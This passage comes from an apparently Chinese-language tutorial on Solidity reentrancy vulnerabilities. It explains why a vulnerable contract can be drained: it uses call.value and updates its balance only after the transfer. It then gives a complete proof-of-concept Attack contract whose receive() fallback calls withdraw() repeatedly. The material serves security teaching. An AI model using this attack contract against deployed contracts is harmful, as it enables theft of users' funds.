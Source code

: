 ```solidity
    }

    // 获取合约本身的余额
    function getBalanceOfContract() external view returns (uint256) {
        return address(this).balance;
    }
}
```

重入漏洞大多数发生在转账的业务场景里面，转账分为两种情况：一种是向EOA账户转账，一种是向合约转账，在合约转账的情况下会默认调用接受者的fallback函数。

这里的示例能被重入攻击的原因是有2个前提：

- 使用call.value转账，会发送全部gas，为重入循环转账提供了条件
- 账本的改变在实际转账后

### POC合约

```solidity
contract Attack {
    Victim public victim;

    constructor(Victim _victim) {
        victim = _victim;
    }

    // 回调函数，用于重入攻击Victim合约，反复的调用目标的withdraw函数
    receive() external payable {
        if (victim.getBalanceOfContract() >= 1 ether) {
            victim.withdraw();
        }
    }

    // 攻击函数，调用时 msg.value 设为 1 ether
    function beginAttack() external payable {
        require(msg.value == 1 ether, "Require 1 Ether to attack");
        victim.deposit{value: 1 ether}();
        victim.withdraw();
    }
}
```

攻击调用栈：

![Untitled](img/reentrancy_1.png)
